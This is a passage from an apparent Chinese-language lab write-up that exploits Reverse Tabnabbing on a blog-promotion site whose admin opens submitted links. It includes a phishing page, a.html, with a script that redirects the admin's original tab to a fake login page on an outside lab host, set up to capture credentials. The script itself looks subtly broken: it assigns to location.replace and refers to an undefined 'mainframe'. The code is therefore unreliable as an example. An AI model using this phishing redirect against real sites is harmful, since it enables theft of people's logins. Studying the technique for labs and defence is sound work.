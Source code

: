         ```python
        
        Hello, test! Welcome to our free blog promotions site.
        Please submit your link so that we can get started. All links will be reviewed by our admin
        ##
        你好，test！欢迎来到我们的免费博客推广网站。
        请提交您的链接，以便我们开始。所有链接都将由我们的管理员审核
        ```
        
        说是输入链接后管理员会获取检查我们链接
        
    - 输入链接，链接提交后会有个`here` 标签，发现是`Reverse Tabnabbing`
        
        > 什么是`Reverse Tabnabbing` ：https://owasp.org/www-community/attacks/Reverse_Tabnabbing
        > 
        
        ![image.png](image%2082.png)
        
4. 制作钓鱼页面
    - 恶意页面`a.html`（跳转用）
        
        ```python
        <!DOCTYPE html>
        <html>
         <body>
          <script>
           if(window.opener) mainframe.location.replace=('http://192.168.56.10:1234/login.htm');
              if(window.opener  != window) mainframe.location.replace=('http://192.168.56.10:1234/login.htm');
          </script>
         </body>
        </html>
        ```
        